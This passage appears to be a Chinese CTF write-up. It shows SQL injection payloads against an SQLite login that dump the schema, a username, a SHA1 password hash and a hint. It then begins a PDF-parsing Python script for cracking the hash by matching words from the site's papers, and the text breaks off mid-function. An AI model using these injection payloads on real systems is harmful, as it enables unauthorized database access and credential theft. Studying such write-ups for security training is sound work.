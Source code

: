 ```
usr=' union select name,sql from sqlite_master--+&pw=123
```

为什么要查询sql呢，这涉及到sqlite自带的结构表sqlite_master，sql是sqlite_master中的一个字段，注入时经常用到的，注入后响应头的set-cookie：

> Set-Cookie: name=+CREATE+TABLE+Users%28id+int+primary+key%2Cname+varchar%28255%29%2Cpassword+varchar%28255%29%2Chint+varchar%28255%29%29;
>
> URL解码后
>
> ```
> CREATE TABLE Users(
>     id int primary key,
>     name varchar(255),
>     password varchar(255),
>     hint varchar(255)
> )
> ```

我们看到了表名和表中的字段了，我们接着构造

```
usr=' union select id,name from Users--+ &pw=123
# +admin

usr=' union select id,password from Users--+ &pw=123
# +3fab54a50e770d830c0416df817567662a9dc85c

usr=' union select id,hint from Users--+ &pw=123
# +my+fav+word+in+my+fav+paper%3F%21 -->my fav word in my fav paper?!（我最喜欢的论文中我最喜欢的词）
```

根据最后的提示，最终的密码是不在网站中，应该是在所以的网站PDF文章中

但是我们之前查到有密码，所以有可能这个就是作者最喜欢的文章的sha1(哈希值)？

我们需要爬取站点中所有的pdf文件，总共30个，然后用脚本进行解析处理，并用sha1函数与加密的密码进行碰撞已找出正确的密码，拿大佬的脚本：

```python
from cStringIO import StringIO
from pdfminer.pdfinterp import PDFResourceManager, PDFPageInterpreter
from pdfminer.converter import TextConverter
from pdfminer.layout import LAParams
from pdfminer.pdfpage import PDFPage
import sys
import string
import os
import hashlib
 
def get_pdf():
	return [i for i in os.listdir("./") if i.endswith("pdf")]
 
def convert_pdf_2_text(path):
    rsrcmgr = PDFResourceManager()
    retstr = StringIO()
    device = TextConverter(rsrcmgr, retstr, codec='utf-8', laparams=LAParams())
    interpreter = PDFPageInterpreter(rsrcmgr, device)
    with open(path, 'rb') as fp:
        for page in PDFPage.get_pages(fp, set()):
            interpreter.process_page(page)
        text = retstr.getvalue()
    device.close()
    retstr.close()
    return text
 
def find_password():
	pdf_path = get_pdf()
```
